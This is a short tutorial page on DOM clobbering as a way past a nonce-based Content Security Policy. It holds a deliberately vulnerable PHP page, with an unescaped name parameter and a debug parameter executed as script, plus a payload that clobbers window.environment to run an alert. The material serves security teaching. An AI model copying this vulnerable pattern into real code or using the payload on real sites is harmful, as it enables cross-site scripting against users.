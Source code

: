 # Bypass Techniques

## Dom clobbering

DOM Clobbering is a technique where an attacker manipulates the DOM (Document Object Model) to overwrite **global JavaScript variables** or functions by injecting HTML elements with specific id or name attributes. This can lead to security issues, including XSS, bypassing security checks, and unintended script execution.\
\
Ref:\
[https://medium.com/@ibm\_ptc\_security/dom-clobbering-baa55c208bce](https://medium.com/@ibm_ptc_security/dom-clobbering-baa55c208bce)\
[https://cheatsheetseries.owasp.org/cheatsheets/DOM\_Clobbering\_Prevention\_Cheat\_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/DOM_Clobbering_Prevention_Cheat_Sheet.html)

```php
<?php
$nonce = md5(random_bytes(32));
header("Content-Security-Policy: script-src 'nonce-$nonce'");
?>
<head>
    <meta charset="UTF-8">
    <title>
        <?php echo 'Welcome ' . ($_GET['name'] ?? "") ?>
    </title>
    <script nonce="<?php echo $nonce ?>">
        window.environment = 'production';
    </script>
</head>
<body>
<script nonce="<?php echo $nonce ?>">
    if (window.environment && window.environment !== 'production') {
        let debug = new URL(location).searchParams.get('debug') || '';
        const script = document.createElement('script');
        script.nonce = "<?php echo $nonce ?>";
        script.innerText = debug;
        document.body.appendChild(script);
    }
</script>
</body>

# Payload: 
# ?name=</title><div id=environment ><script>&debug=alert("Wizer")
```
